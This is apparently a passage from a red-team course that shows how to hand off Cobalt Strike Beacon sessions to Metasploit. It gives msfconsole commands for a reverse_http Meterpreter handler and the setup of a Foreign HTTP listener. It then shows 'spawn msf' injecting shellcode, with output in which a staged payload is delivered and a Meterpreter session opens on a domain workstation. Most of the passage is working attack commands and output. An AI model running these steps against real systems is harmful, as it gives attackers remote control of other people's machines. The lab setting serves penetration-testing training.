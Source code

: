 The foreign listener in Cobalt Strike is designed to stage Meterpreter HTTP/HTTPS implants from Beacon, although it's technically compatible with any implant that supports the MSF staging protocol.  Start `msfconsole` and create a new reverse HTTP Meterpreter listener.
```
attacker@ubuntu ~> sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST ens5
msf6 exploit(multi/handler) > set LPORT 8080
```

  You must use the "staged" reverse_http payload type and ensure you use a port that Cobalt Strike is not already listening on.

  
```
msf6 exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://10.10.5.50:8080
```
  

Go to the listener management in Cobalt Strike and create a new **Foreign HTTP** listener.  The stager host and port must match your MSF multi handler.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/076/0cf/0c2/foreign-http.png)

  

This listener will now be available within all the relevant Beacon commands such as `spawn`, `jump` and `elevate`.  For instance, `spawn msf` will spawn a process and inject Meterpreter shellcode into it, thus giving us a Meterpreter session.
```
[*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: t6qekc2g) Staging x86 payload (176732 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.50:8080 -> 127.0.0.1) at 2022-09-05 11:29:54 +0000

meterpreter > sysinfo
Computer        : WKSTN-2
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : DEV
Logged On Users : 11
Meterpreter     : x86/windows
```
  

Two downsides to the foreign listener is that it only supports x86 staged payloads (no x64 or stageless).